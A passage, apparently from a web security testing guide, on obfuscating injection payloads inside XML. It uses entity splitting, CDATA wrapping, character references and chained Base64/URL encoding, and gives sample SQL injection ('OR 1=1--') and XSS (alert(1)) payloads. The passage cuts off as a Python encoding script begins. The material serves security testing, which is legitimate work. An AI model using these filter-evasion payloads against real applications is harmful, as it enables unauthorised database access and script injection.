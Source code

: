            <!ENTITY l "L">
           <!ENTITY sel "&s;&e;&l;">
           <!ENTITY ect "ECT">
           <!ENTITY select "&sel;&ect;">
           <!ENTITY from "FROM">
           <!ENTITY users "users">
       ]>
       <root>
         <query>&select; * &from; &users;</query>
       </root>
       ```

    2. **XML CDATA obfuscation**:
       - Step 1: Identify characters that would normally be escaped in XML
       - Step 2: Wrap payload in CDATA sections to prevent XML parsing
       - Step 3: Test if application extracts and processes CDATA contents
       - Step 4: Combine with entity encoding for deeper obfuscation
       - Step 5: Submit and observe execution
       - Example: `<![CDATA[<script>alert(1)</script>]]>`
       - Testing insight: CDATA prevents XML parsing but content may still be processed
       - Example XML with CDATA obfuscation:
       ```xml
       <?xml version="1.0" encoding="UTF-8"?>
       <root>
         <query><![CDATA[SELECT * FROM users WHERE username='admin' OR 1=1--]]></query>
       </root>
       ```

    3. **Character reference obfuscation in XML**:
       - Step 1: Identify special characters in your payload
       - Step 2: Replace them with numeric or hexadecimal character references
       - Step 3: Test if XML parser resolves these references
       - Step 4: Create a payload mixing different reference types
       - Step 5: Submit the XML with obfuscated payload
       - Example: `&#83;&#69;&#76;&#69;&#67;&#84;` for "SELECT"
       - Decimal vs. hexadecimal: `&#83;` vs. `&#x53;` for 'S'
       - Example XML with character reference obfuscation:
       ```xml
       <?xml version="1.0" encoding="UTF-8"?>
       <root>
         <query>&#x53;&#x45;&#x4C;&#x45;&#x43;&#x54; * &#70;&#82;&#79;&#77; users</query>
       </root>
       ```

  - **Multi-layered encoding techniques**
    1. **Chained encoding attacks**:
       - Step 1: Apply first layer of encoding to your payload
       - Step 2: Apply second layer of encoding to the result
       - Step 3: Continue adding layers as needed
       - Step 4: Test if application sequentially decodes all layers
       - Step 5: Submit the multi-encoded payload
       - Example: Base64 encode a payload, then URL-encode the Base64 string
       - Testing insight: Applications often decode outer layers before inner ones
       - Python script for multi-layered encoding:
       ```python
       import base64
       import urllib.parse
       